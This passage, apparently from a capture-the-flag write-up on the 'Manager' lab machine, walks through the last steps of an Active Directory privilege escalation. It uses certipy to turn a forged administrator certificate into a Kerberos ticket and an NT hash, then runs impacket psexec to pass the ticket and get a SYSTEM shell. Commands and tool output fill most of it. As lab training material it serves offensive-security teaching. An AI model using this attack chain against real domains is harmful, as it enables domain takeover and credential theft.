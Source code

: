 ```markdown
[*] Saved certificate and private key to 'administrator.pfx'
```
We can use this certificate to obtain a tgt ticket with `certipy`. This is known as a pass-the-certificate attack (https://www.thehacker.recipes/a-d/movement/kerberos/pass-the-certificate).
In order for this to work, synchronization with dc clock is needed to avoid clock skew too great. This can be done with ntpdate
```markdown
> sudo ntpdate -u 10.129.142.151
2023-10-22 16:28:37.84492 (-0400) +25184.364655 +/- 0.061746 10.129.142.151 s1 no-leap
CLOCK: time stepped by 25184.364655
```
Using the administrator certificate that we have just created, generate a kerberos tgt ticket.
```markdown
> /usr/bin/certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.142.151 -username administrator -domain manager.htb

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```
At this point, you can have a full interactive system shell either passing the administrator hash or passing the tgt ticket.
To pass the hash, you can use `psexec` or similar tool. To pass the ticket, first export the ticket to prepare a pass the ticket attack.
```markdown
> export KRB5CCNAME=administrator.ccache
```
Then login to dc using passing the tgt ticket.
```markdown
> python3 /usr/share/doc/python3-impacket/examples/psexec.py manager.htb/administrator@dc01 -k -no-pass -dc-ip 10.129.142.151 -target-ip 10.129.142.151

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.129.142.151.....
[*] Found writable share ADMIN$
[*] Uploading file pxXDoAzA.exe
[*] Opening SVCManager on 10.129.142.151.....
[*] Creating service CRFB on 10.129.142.151.....
[*] Starting service CRFB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd c:\users\administrator\desktop
 
c:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 566E-8ECA

 Directory of c:\Users\Administrator\Desktop

09/28/2023  02:27 PM    <DIR>          .
09/28/2023  02:27 PM    <DIR>          ..
10/20/2023  10:46 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,414,751,744 bytes free
```
